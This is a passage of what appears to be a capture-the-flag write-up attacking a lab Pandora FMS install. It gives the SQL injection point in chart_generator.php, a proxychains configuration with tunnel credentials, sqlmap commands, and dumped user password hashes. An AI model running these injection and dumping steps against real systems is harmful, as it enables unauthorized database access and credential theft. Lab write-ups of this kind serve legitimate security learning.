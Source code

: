 Navigating to localhost.localdomain/pandora_console will show us a login page for some software called Pandora FMS. according to the version that is typed in the bottom the page **v7.0NG.742_FIX_PERL2020** there is are lots of [CVEs](https://blog.sonarsource.com/pandora-fms-742-critical-code-vulnerabilities-explained/) one of the vulns says that its a sql vuln.

The injections is in `/include/chart_generator.php` It passes $_REQUEST['session_id'] to the constructor for a PandoraFMS\User object, and that is not sanitized.

I'll try to request a `?session_id='` parameter to `include/chart_generator.php`, and it returns an SQL error:

![sql_inj](./img/sql_inj.png)

I'll use sqlmap for this injection, so I will need to use a great tool called proxychains. Proxychains was designed to create a chain of proxies that allow you to pivot your tools into systems without having to install tools on the other side of whatever you are attacking into.

To use proxychains, we need to specify the dynamic tunnel to pivot through via the `/etc/proxychains.conf` file.

```bash
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
#socks4 	127.0.0.1 9050
socks5 127.0.0.1 9001 daniel HotelBabylon23
```

Now, we can run a sql attack against the chart generator php file.

```bash
[werz@Arch pandora]$ sqlmap --url="http://localhost:9001/pandora_console/include/chart_generator.php?session_id=''" -D pandora --tables
```

sqlmap dumped a lot of tables `tpassword_history` table looks intersting, lets dump it.
``` bash
[werz@Arch pandora]$ sqlmap --url="http://localhost:9001/pandora_console/include/chart_generator.php?session_id=''" -Ttpassword_history --dump
```
so it contains password hashes for matt and daniel.
```bash
do you want to crack them via a dictionary-based attack? [Y/n/q] n
Database: pandora
Table: tpassword_history
[2 entries]
+---------+---------+---------------------+----------------------------------+---------------------+
| id_pass | id_user | date_end            | password                         | date_begin          |
+---------+---------+---------------------+----------------------------------+---------------------+
| 1       | matt    | 0000-00-00 00:00:00 | f655f807365b6dc602b31ab3d6d43acc | 2021-06-11 17:28:54 |
| 2       | daniel  | 0000-00-00 00:00:00 | 76323c174bd49ffbbdedf678f6cc89a6 | 2021-06-17 00:11:54 |
+---------+---------+---------------------+----------------------------------+---------------------+
```